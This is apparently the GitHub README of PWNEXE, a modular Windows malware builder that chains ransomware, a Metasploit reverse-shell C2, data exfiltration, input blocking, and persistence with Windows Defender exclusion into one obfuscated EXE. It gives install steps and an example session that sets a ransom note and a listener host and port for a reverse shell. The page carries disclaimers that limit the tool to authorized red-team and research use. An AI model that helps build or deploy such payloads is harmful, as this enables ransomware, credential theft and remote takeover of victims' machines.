 ## Overview
**PWNEXE** is a modular Windows malware generation framework. It empowers security researchers and red teamers to rapidly build custom malware payloads by chaining together a variety of modules—such as ransomware, persistence loaders, C2 servers, and more—into a single executable. PWNEXE is designed for advanced adversary simulation, malware research, and authorized red team operations.

> **Warning:** This tool is for educational and authorized security research only. Misuse may be illegal and unethical.

---

## Features

- **Modular Payloads:** Chain multiple modules (ransomware, persistence, C2, etc.) into a single EXE.
- **Customizable Options:** Configure module and build options (e.g., ransom note, C2 port, EXE name).
- **In-Memory Execution:** Optional Rust loader for stealthy, in-memory payload delivery.
- **Obfuscation Support:** Optional payload obfuscation via LLVM and Rust.
- **Cross-Platform Build:** Uses Go and Rust for robust Windows payloads.
- **Fast Build Pipeline:** Output is saved to the `.LOOT` directory.

---

## Installation

1. **Clone the repository:**
   ```bash
   git clone https://github.com/sarwaaaar/PWNEXE.git
   cd PWNEXE
   ```
2. **Install Python 3.8+**
   ```bash
   python3 --version
   ```
3. **Install dependencies:**
   ```bash
   python3 -m pip install --upgrade pip
   python3 -m pip install -r requirements.txt
   ```
4. **Install system dependencies:**
   - Go (for module compilation)
   - Rust (for in-memory loader)
   - **Docker** (required for payload obfuscation)
     - Pull the required Docker image for obfuscation:
       ```bash
       docker pull ghcr.io/joaovarelas/obfuscator-llvm-16.0:latest
       ```
     - This image is used to obfuscate Rust payloads using LLVM during the build process.
   - On macOS:
     ```bash
     brew install go rust
     ```
   - On Linux:
     ```bash
     sudo apt install golang rustc cargo
     ```

---

## Usage

Start the tool:
```bash
python3 main.py
```

### Command Reference

- `use <module>` — Add a module to the build chain
- `set <OPTION> <VALUE>` — Set build/module options
- `show modules` — List available modules
- `show options` — Show current build/module options
- `build` — Build the final EXE payload
- `clear` — Clear selected modules
- `delete` — Remove a module from the chain
- `exit` — Exit the tool

**For detailed documentation on each command and advanced usage, see the [PWNEXE Wiki](https://github.com/sarwaaaar/PWNEXE/wiki).**

### Example Workflow
```
pwnexe > show modules
pwnexe > use daemon/bartmoss
pwnexe > set NOTE "Your files have been encrypted! Contact evil@domain.com."
pwnexe > use daemon/spider
pwnexe > set LHOST 192.168.1.10
pwnexe > set LPORT 4444
pwnexe > build
```
- The final EXE will be saved in the `.LOOT` directory.

---

## Available Modules

| Module                   | Description                                                        |
|--------------------------|--------------------------------------------------------------------|
| daemon/filedaemon        | Normal C2 server to receive data                                   |
| daemon/spider            | Metasploit C2 server (reverse shell/payload delivery)              |
| daemon/bartmoss          | Ransomware builder                                                 |
| interfaceplug/blackout   | Screen blackout utility                                            |
| interfaceplug/suicide    | Block input (DoS)                                                  |
| quickhack/ping           | Sends back user info to the C2 server                              |
| quickhack/icepick        | Adds EXE to persistence and adds exclusion to Windows Defender      |

---

## Advanced Features
- **Module Chaining:** Combine multiple behaviors in one payload.
- **Custom Build Options:** Set EXE name, enable obfuscation, etc.
- **In-Memory Execution:** Use Rust loader for stealthy delivery.

---

## Legal Disclaimer

PWNEXE is intended for educational purposes and authorized security testing only. You must have explicit permission to use this tool against any system or network. The authors and contributors are not responsible for misuse, damage, or legal consequences. Always follow applicable laws and ethical guidelines.

---

## Contributing

Contributions are welcome! Please fork the repository, create a feature branch, and submit a pull request with a detailed description of your changes.

---

## License

MIT License. See the `LICENSE` file for details.
